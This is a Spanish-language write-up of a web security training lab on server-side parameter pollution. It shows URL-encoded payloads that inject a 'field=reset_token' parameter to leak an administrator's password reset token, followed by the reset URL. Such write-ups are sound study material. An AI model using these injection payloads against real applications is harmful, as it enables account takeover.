 # 01 Lab: Exploiting server-side parameter pollution in a query string

## Objetivo

> To solve the lab, log in as the `administrator` and delete `carlos`.
> 

## Solución

![Untitled](01%20Lab%20Exploiting%20server-side%20parameter%20pollution%20%2017efab5460ec80d0b1b3e31e2ec30b19/Untitled.png)

La respuesta Field not specified indica que hay campos que no se han llenado. Es decir con el %23 o con el # se ha forzado un error típico de apis

![Untitled](01%20Lab%20Exploiting%20server-side%20parameter%20pollution%20%2017efab5460ec80d0b1b3e31e2ec30b19/Untitled%201.png)

```sql
csrf=ieYJUI1Y4oYGwE0D8Ht5bpZAfUEZJ68E&username=administrator%26field=sdada%23

el %26 es url ecoded de &
el %23 es url ecoded de #
```

![Untitled](01%20Lab%20Exploiting%20server-side%20parameter%20pollution%20%2017efab5460ec80d0b1b3e31e2ec30b19/Untitled%202.png)

![Untitled](01%20Lab%20Exploiting%20server-side%20parameter%20pollution%20%2017efab5460ec80d0b1b3e31e2ec30b19/Untitled%203.png)

```sql
csrf=ieYJUI1Y4oYGwE0D8Ht5bpZAfUEZJ68E&username=administrator%26field=reset_token%23

{"type":"reset_token","result":"ojj4fu8g9bjvu3itnvwj6sudt21e3a47"}

/forgot-password?reset_token=ojj4fu8g9bjvu3itnvwj6sudt21e3a47
```

![Untitled](01%20Lab%20Exploiting%20server-side%20parameter%20pollution%20%2017efab5460ec80d0b1b3e31e2ec30b19/Untitled%204.png)